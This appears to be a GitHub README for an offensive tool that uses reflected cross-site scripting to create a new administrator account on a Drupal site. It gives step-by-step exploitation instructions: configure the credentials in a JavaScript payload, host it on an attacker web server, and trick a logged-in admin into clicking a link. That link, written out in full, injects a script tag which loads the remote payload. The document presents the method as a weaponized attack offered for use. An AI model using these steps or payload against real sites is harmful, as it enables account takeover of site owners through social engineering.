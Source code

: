 # [authn] Create New Admin User (ATO)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccDrupal.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: no password requirements)

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/drupal"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/rxss.php?q=<script src=http://192.168.5.5/createAdminAccDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.5` - web server hosting the payload

5. [post exploit] attacker logs into target Drupal site using specified credentials

    http://192.168.5.17/user/login

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/CreateNewAdmin/screenshots/Drupal_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/CreateNewAdmin/screenshots/Drupal_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/f6c8aaa9-6cc4-42e4-a224-6bdf9d5be35e
